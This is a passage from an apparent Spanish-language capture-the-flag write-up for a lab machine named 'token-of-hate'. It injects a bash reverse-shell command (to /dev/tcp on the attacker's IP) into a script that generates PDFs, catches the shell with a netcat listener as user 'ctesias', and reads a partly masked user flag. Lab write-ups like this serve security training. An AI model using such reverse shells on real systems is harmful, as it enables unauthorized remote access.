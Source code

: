 Descargamos otro PDF y obtenemos la ejecución de comandos con el usuario `ctesias`.

![alt text](../../../assets/images/token-of-hate/image-15.png)

Modificamos la variable `command` de nuestro JavaScript en el archivo `script.js`, introduciendo la IP de nuestra máquina atacante:

```javascript
var command = "bash -c 'bash -i >& /dev/tcp/192.168.1.181/12345 0>&1'";
```

Nos ponemos a la escucha con netcat en el puerto `12345` y creamos otro PDF:

```bash
$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [192.168.1.181] from (UNKNOWN) [192.168.1.117] 40170
bash: no se puede establecer el grupo de proceso de terminal (497): Función ioctl no apropiada para el dispositivo
bash: no hay control de trabajos en este shell
ctesias@tokenofhate:/$ 
```

Entramos en la máquina víctima como el usuario `ctesias`.

![alt text](../../../assets/images/token-of-hate/image-16.png)

Podemos leer la flag de `user.txt`:

```bash
tesias@tokenofhate:~$ cat user.txt
cat user.txt
98XXXXXXXXXXXXXXXXXXXXXXXXXXXXa3
```
